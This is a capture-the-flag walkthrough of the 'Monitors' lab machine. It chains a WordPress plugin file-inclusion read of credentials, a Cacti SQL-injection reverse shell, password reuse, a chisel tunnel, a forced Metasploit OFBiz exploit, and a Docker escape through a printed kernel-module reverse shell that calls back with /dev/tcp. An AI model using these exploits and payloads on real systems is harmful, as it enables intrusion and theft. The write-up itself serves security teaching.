




# Marcus

## Nmap

We start by scanning the IP’s ports:

```zsh
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC -A 10.10.10.238
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bacccd81fc9155f3f6a91f4ee8bee52e (RSA)
|   256 6943376a1809f5e77a67b81811ead765 (ECDSA)
|_  256 5d5e3f67ef7d762315114b53f8413a94 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.5.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome to Monitor &#8211; Taking hardware monitoring seriously

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   23.69 ms 10.10.14.1
2   25.52 ms monitors.htb (10.10.10.238)
```

## Hosts

Then we add the domain to `/etc/hosts`:

```zsh
┌──(root㉿kali)-[/home/kali]
└─# echo "10.10.10.238 monitors.htb" >> /etc/hosts
```

## Wordpress

Nmap showed the site uses WordPress 5.5.1,
so we’ll scan this WordPress site with wpscan:

```zsh
┌──(kali㉿kali)-[~]
└─$ sudo wpscan --url http://monitors.htb -e ap,t,tt,u --api-token TOKEN
[...]
[i] Plugin(s) Identified:

[+] wp-with-spritz
 | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-08-20T20:15:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: WP with Spritz 1.0 - Unauthenticated File Inclusion
 |     References:
 |      - https://wpscan.com/vulnerability/cdd8b32a-b424-4548-a801-bbacbaad23f8
 |      - https://www.exploit-db.com/exploits/44544/
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
[...]
```

## Wordpress RFI

Wpscan tells us the `wp-with-spritz` plugin version is vulnerable to an RFI:

```zsh
┌──(kali㉿kali)-[~]
└─$ locate 44544                       
/usr/share/exploitdb/exploits/php/webapps/44544.php
          
┌──(kali㉿kali)-[~]
└─$ cat /usr/share/exploitdb/exploits/php/webapps/44544.php                                  
# Exploit Title: WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion
# Date: 2018-04-25
# Exploit Author: Wadeek
# Software Link: https://downloads.wordpress.org/plugin/wp-with-spritz.zip
# Software Version: 1.0
# Google Dork: intitle:("Spritz Login Success") AND inurl:("wp-with-spritz/wp.spritz.login.success.html")
# Tested on: Apache2 with PHP 7 on Linux
# Category: webapps


1. Version Disclosure

/wp-content/plugins/wp-with-spritz/readme.txt

2. Source Code

if(isset($_GET['url'])){
$content=file_get_contents($_GET['url']);

3. Proof of Concept

/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec                                                                                  
```

So, let’s check Apache’s configuration:

```zsh
┌──(kali㉿kali)-[~]
└─$ curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/apache2/sites-enabled/000-default.conf
# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf

<VirtualHost *:80>
[...]
```

We then find a new domain to add:

```zsh
┌──(root㉿kali)-[/home/kali]
└─# echo "10.10.10.238 cacti-admin.monitors.htb" >> /etc/hosts
```

The `monitors.htb` config shows the site’s document root is `/var/www/wordpress`:

```zsh
┌──(kali㉿kali)-[~]
└─$ curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/apache2/sites-enabled/monitors.htb.conf 
[...]
        ServerAdmin admin@monitors.htb
        ServerName monitors.htb
        ServerAlias monitors.htb
        DocumentRoot /var/www/wordpress
[...]
```

Then the WordPress config file `wp-config.php` gives us the database password:

```zsh
┌──(kali㉿kali)-[~]
└─$ curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../var/www/wordpress/wp-config.php

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
```

## Cacti

Let’s go to the new site we found:


This site uses `cacti 1.2.12`. Let’s see if there are known exploits for this version:

```zsh
┌──(kali㉿kali)-[~]
└─$ searchsploit cacti 1.2.12
------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                    |  Path
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Cacti 1.2.12 - 'filter' SQL Injection                                                                             | php/webapps/49810.py
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results

┌──(kali㉿kali)-[~]
└─$ locate php/webapps/49810.py        
/usr/share/exploitdb/exploits/php/webapps/49810.py

└─$ python3 /usr/share/exploitdb/exploits/php/webapps/49810.py
usage: 49810.py [-h] -t <target/host URL> -u <user> -p <password> --lhost <lhost> --lport <lport>
49810.py: error: the following arguments are required: -t, -u, -p, --lhost, --lport
```

We need a password; if we try `admin:BestAdministrator@2020!` it works.
The exploit gets an RCE via an SQLi:

```zsh
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 /usr/share/exploitdb/exploits/php/webapps/49810.py -t http://cacti-admin.monitors.htb -u admin -p BestAdministrator@2020! --lhost 10.10.14.5 --lport 4444 
[+] Connecting to the server...
[+] Retrieving CSRF token...
[+] Got CSRF token: sid:cd05039fb335b6d5cbf9fcecc77db39a5d777669,1694259967
[+] Trying to log in...
[+] Successfully logged in!

[+] SQL Injection:
"name","hex"
"",""
"admin","$2y$10$TycpbAes3hYvzsbRxUEbc.dTqT0MdgVipJNBYu8b7rUlmB8zn8JwK"
"guest","43e9a4ab75570f5b"

[+] Check your nc listener!
```

The reverse shell worked and our netcat shows we’re connected as `www-data`:

```zsh
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.238] 33632
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

At this point, I always use this command to upgrade my shell (though here it’s probably unnecessary):

```zsh
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## www-data -> marcus

Let’s look for references to the user `marcus`:

```zsh
$ grep 'marcus' /etc -R 2>/dev/null
grep 'marcus' /etc -R 2>/dev/null
/etc/group-:marcus:x:1000:
/etc/subgid:marcus:165536:65536
/etc/group:marcus:x:1000:
/etc/passwd:marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
/etc/systemd/system/cacti-backup.service:ExecStart=/home/marcus/.backup/backup.sh
/etc/subuid:marcus:165536:65536
/etc/passwd-:marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash

$ cat /home/marcus/.backup/backup.sh
cat /home/marcus/.backup/backup.sh                                                                                                                  
#!/bin/bash                                                                                                                                         
                                                                                                                                                    
backup_name="cacti_backup"                                                                                                                          
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```

We then obtain a new password `VerticalEdge2020`.

# Root

With this, we connect to Marcus’s SSH:

```zsh
┌──(kali㉿kali)-[~]
└─$ ssh marcus@monitors.htb    
marcus@monitors:~$
```

We also get the user flag:

```zsh
marcus@monitors:~$ cat user.txt 
5bb7..443ea
```

## linpeas.sh

Now we aim to escalate privileges to `root`. To do so, we’ll use `linpeas.sh` to enumerate interesting information.

Neither curl nor wget is available, so we won’t use HTTP to send files; we’ll use netcat since it’s available:

```zsh
# Target:
$ nc -l -p 1234 > linpeas.sh
nc -l -p 1234 > linpeas.sh
```

```zsh
# Kali:
┌──(kali㉿kali)-[~/Desktop/linpeas-server]
└─$ nc -w 3 10.10.10.238 1234 < linpeas.sh
```

We run linpeas:

```zsh
$ chmod +x linpeas.sh
chmod +x linpeas.sh
$ ./linpeas.sh
```

Linpeas shows the locally used ports:

```zsh
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                               
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                                                                                                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

## Tunnel (Chisel)

The service `127.0.0.1:8443` catches my eye,
so we’ll set up a proxy to access the local network:

```zsh
marcus@monitors:~$ nc -l -p 1234 > chisel
marcus@monitors:~$ chmod +x chisel
marcus@monitors:~$ ./chisel client 10.10.14.5:8000 R:8443:127.0.0.1:1080
```

```zsh
┌──(kali㉿kali)-[~/Desktop/linpeas-server]
└─$ ./chisel server -p 8000 --reverse
2023/09/09 17:23:05 server: Reverse tunnelling enabled
2023/09/09 17:23:05 server: Fingerprint byl8Mf/Bu9BZsKH8mG4H4E3zwSd50oTi+HL4CEFwWc8=
2023/09/09 17:23:05 server: Listening on http://0.0.0.0:8000
2023/09/09 17:23:05 server: session#1: tun: proxy#R:8443=>8443: Listening
```

Chisel then created a tunnel to access `https://localhost:8443/` on our own machine:


```zsh
┌──(kali㉿kali)-[~/Desktop/linpeas-server]
└─$ dirsearch -u "https://localhost:8443/"
```

`dirsearch` shows that `https://localhost:8443/solr/` exists.

With a quick search we find:


## ofbiz exploit

We then find that `https://localhost:8443/solr/#/` redirects to `https://localhost:8443/solr/control/checkLogin/#/`:

This service uses `ofbiz 17.12.01`.

### Searchsploit

```zsh
┌──(kali㉿kali)-[~]
└─$ searchsploit ofbiz                      
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                            |  Path
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Apache OFBiz - Admin Creator                                                                                                              | multiple/remote/12264.txt
Apache OFBiz - Multiple Cross-Site Scripting Vulnerabilities                                                                              | php/webapps/12330.txt
Apache OFBiz - Remote Execution (via SQL Execution)                                                                                       | multiple/remote/12263.txt
Apache OFBiz 10.4.x - Multiple Cross-Site Scripting Vulnerabilities                                                                       | multiple/remote/38230.txt
Apache OFBiz 16.11.04 - XML External Entity Injection                                                                                     | java/webapps/45673.py
Apache OFBiz 16.11.05 - Cross-Site Scripting                                                                                              | multiple/webapps/45975.txt
Apache OFBiz 17.12.03 - Cross-Site Request Forgery (Account Takeover)                                                                     | java/webapps/48408.txt
ApacheOfBiz 17.12.01 - Remote Command Execution (RCE)                                                                                     | java/webapps/50178.sh
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

### Metasploit

The exploit found with `searchsploit` doesn’t work. I then look in `Metasploit`:

```zsh
┌──(kali㉿kali)-[~/Desktop]
└─$ msfconsole                          
msf6 > search ofbiz

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/linux/http/apache_ofbiz_deserialization_soap  2021-03-22       excellent  Yes    Apache OFBiz SOAP Java Deserialization
   1  exploit/linux/http/apache_ofbiz_deserialization       2020-07-13       excellent  Yes    Apache OFBiz XML-RPC Java Deserialization
   2  auxiliary/scanner/http/log4shell_scanner              2021-12-09       normal     No     Log4Shell HTTP Scanner
```

Let’s use `Apache OFBiz XML-RPC Java Deserialization`:

```zsh title="Msfconsole"
msf6 > use 1
[*] Using configured payload linux/x64/meterpreter_reverse_https
```

After configuration I have:

```zsh title="Msfconsole"
msf6 exploit(linux/http/apache_ofbiz_deserialization) > show options

Module options (exploit/linux/http/apache_ofbiz_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8443             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addres
                                         ses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.5       yes       The local listener hostname
   LPORT  4444             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper
```

All that’s left is to run it:

```zsh title="Msfconsole"
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run
[*] Started HTTPS reverse handler on https://10.10.14.5:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. Target cannot deserialize arbitrary data. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set ForceExploit true
ForceExploit => true
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run
```

# Docker

At this stage, we see we’re in a docker compose environment:

```zsh title="Msfconsole"
meterpreter > cat /proc/1/cgroup
12:pids:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
11:cpuset:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
10:hugetlb:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
9:devices:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
8:blkio:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
7:cpu,cpuacct:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
6:freezer:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
5:net_cls,net_prio:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
4:perf_event:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
3:rdma:/
2:memory:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
1:name=systemd:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
0::/system.slice/containerd.service
```

Let’s return to a shell:

```zsh title="Msfconsole"
meterpreter > shell
Process 203 created.
Channel 4 created.
```

We discover we are indeed root. The goal now is to get out of the docker compose environment:

```zsh
id
uid=0(root) gid=0(root) groups=0(root)
```

## Docker Escape

[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation) suggests looking for capability-related vulnerabilities:

```zsh
capsh --print

Terminate channel 4? [y/N]  N                                                                                                                                               
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip                                                                                                                                         
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

We see here that `cap_sys_module` can be exploited (cf. Hacktricks).

With a bit of research, I found this post: [https://blog.nody.cc/posts/container-breakouts-part2/](https://blog.nody.cc/posts/container-breakouts-part2/)

So we create the two files shown in the post:

```c title="reverse-shell.c"
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.5/4445 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

```Makefile title="Makefile"
obj-m +=reverse-shell.o

all:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) modules
clean:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) clean
```

Then we download them onto the target:

```zsh
┌──(kali㉿kali)-[~/Desktop/linpeas-server]
└─$ python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

```zsh
wget 10.10.14.5/reverse-shell.c
--2023-09-09 17:13:13--  http://10.10.14.5/reverse-shell.c
Connecting to 10.10.14.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 616 [text/plain]
Saving to: ‘reverse-shell.c’

     0K                                                       100% 50.2M=0s

2023-09-09 17:13:13 (50.2 MB/s) - ‘reverse-shell.c’ saved [616/616]
```

```zsh
wget 10.10.14.5/Makefile
connected.
HTTP request sent, awaiting response... --2023-09-09 17:13:30--  http://10.10.14.5/Makefile
Connecting to 10.10.14.5:80... 200 OK
Length: 148 [application/octet-stream]
Saving to: ‘Makefile’

     0K                                                       100% 18.1M=0s

2023-09-09 17:13:30 (18.1 MB/s) - ‘Makefile’ saved [148/148]
```

After building the files with `make`, we run:

```zsh
insmod reverse-shell.ko
```

# Root

And there we go—we’re out of Docker and we’re root!

```zsh
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.238] 38630
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
```

We then retrieve the final flag:

```zsh
root@monitors:/# cat /root/root.txt
cat /root/root.txt
db03..9500
```
